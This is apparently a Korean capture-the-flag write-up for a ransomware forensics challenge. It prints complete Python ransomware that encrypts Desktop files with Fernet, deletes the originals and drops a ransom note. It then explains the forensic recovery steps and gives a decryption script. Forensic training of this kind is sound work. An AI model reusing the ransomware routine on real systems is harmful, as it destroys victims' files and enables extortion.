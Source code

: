# Get-Flag-From-Space 

# Usage
- 2024.03#

# Concept
- Ransomware
- Notepad

# Writeup

본 문제에 사용된 랜섬웨어 파일의 원본 소스코드는 아래와 같습니다. 

####  BubboleBobble-python.py

import os
import base64
from cryptography.fernet import Fernet
import getpass

print('Ransomware Runing (No Remove!) ')

try:
    # Scan Files
    def scan(path):
        allFiles = []
        for home, sub_files, file_list_s in os.walk(path):
            for name_files in file_list_s:
                if 'space' in name_files:
                    continue
                allFiles.append(os.path.join(home, name_files))
        return allFiles

    username = getpass.getuser()
    print(username)
    #Path Files
    path_files = 'C:\\Users\\' +username+ '\\Desktop'

    key_fernet_start = Fernet.generate_key()

    #Encryption
    num = 0
    openFiles = scan(path_files)
    for file_os in openFiles:
        #Read Files
        files = open(file_os, "rb")
        Data_Text = files.read()
        files.close()

        #Files Remove 
        os.remove(file_os)
        
        # Fernet
        fernet_start = Fernet(key_fernet_start)
        encodedBytes = fernet_start.encrypt(Data_Text)
        encodedStr = str(encodedBytes,"utf-8")
        
        # Write Files
        output = os.path.join(os.path.dirname(file_os), os.path.basename(file_os) + '.space')
        files2 = open(output, "w")
        files2.write(encodedStr)
        num += 1

    # Note
        num2 = 0
        for dirName, subdirList, fileList in os.walk(path_files):
            OutputFile = os.path.join(os.path.join(dirName),f"Read_ME.txt")
            file = open(OutputFile,'w')
            file.write('''Attention maybe you have been infected by Space-Ransomware!

        All your file have been overwrite by Encryption Fernet

        Don't worry, you can return all your files!

        The only method of recovering files is to purchase decrypt tool and unique key for you.
        This software will decrypt all your encrypted files.
        To get this software you need write on our e-mail below

        What guarantees do we give to you?
        Its just a business. We absolutely do not care about you and your deals, except getting benefits.

        Ransomware Make By Space-Boy

        <--------- Rule
        DONT try to change files by yourself, DONT use any third party software for restoring your data.
        Do not rename encrypted files.

        Contact us:space@onion.mail

        Send $010-1111-1111 worth of Space Coin to this Address:
        1111-1111-1111-1111

        Logs Ransomware --------------->
        Personal Ransomware ID: bY1yUCdKYs8gQ9YzakB1JSRpx37xCAapQIz6alFOp1p1PGnQzcGuIxUD4YR0gISNoThUZ4jx7nATPW9IePHtpzCJporR_93758072677
        Encryption Path:'C:\\Users\\Administrator'
        File Extension: space
        <--------------- Logs Ransomware
        ''')
            file.close()
            num2 += 1

    print("Ransomware Runing Done!!!!!!")

except:
    pass

본 문제는 랜섬웨어에 감염된 파일을 복호화하는 문제입니다.
일반적으로 랜섬웨어에 감염되면, 공격 대상은 랜섬 노트를 통해 공격자와 컨택하여 복호화 키 또는 원본 파일을 획득할 수 있습니다. 

본 문제는 피해자가 당황하여 랜섬노트를 삭제한 케이스였지만 아래와 같은 방법으로 플래그를 획득할 수 있습니다. 

1. 파일시스템 로그
파일시스템 로그에서 확보 가능한 랜섬노트 파일명을 통해 랜섬 노트를 메모장으로 열었다고 추정할 수 있습니다. 따라서 win11 부터 남는 메모장 캐시 경로로 가서 랜섬노트 내용을 확인할 수 있습니다. 랜섬노트 내용에서 fernet으로 암호화되었다는 점과 공격자 이메일 주소를 획득할 수 있습니다.
또한 파일시스템 로그를보면 랜섬웨어 감염 시점에 뜬금없이 C드라이브 하위에 폴더와 desktop.ini 파일이 생기는 것을 볼 수 있습니다. 해당 파일 내용 확인을 통해 랜섬웨어 복호화키가 해당 경로에 드롭되는 것을 추정하고 복호화 코드 구현이 가능합니다. 

2. 크롬 히스토리를 통한 랜섬웨어 원인 진단
피해자는 불법 자료 공유 카페에서 게임 압축 파일을 다운로드 받았으며, 이로 인해 랜섬웨어에 감염됩니다. 압축 파일에 패스워드가 걸려있으며 크랙 코드를 짜거나 크랙 도구를 이용해 랜섬웨어 파일을 획득할 수 있습니다. 해당 실행 파일을 디컴파일하면 랜섬노트 내용과 복호화키를 특정 경로에 드랍하는 코드 내용을 볼 수 있습니다. 


#### ex.py

from cryptography.fernet import Fernet

def decrypt_file(encrypted_file_path, key):
    with open(encrypted_file_path, 'rb') as f:
        encrypted_data = f.read()
    
    fernet = Fernet(key)
    decrypted_data = fernet.decrypt(encrypted_data)

    decrypted_file_path = encrypted_file_path[:-6]
    with open(decrypted_file_path, 'wb') as f:
        f.write(decrypted_data)

encrypted_file_path = "Flag_is_Here.xlsx.space"
key = b'f7ZBaAeSShZQltlmcTzcHQwnCMCQkJ__Z1rpK0nTHfs='

decrypt_file(encrypted_file_path, key)


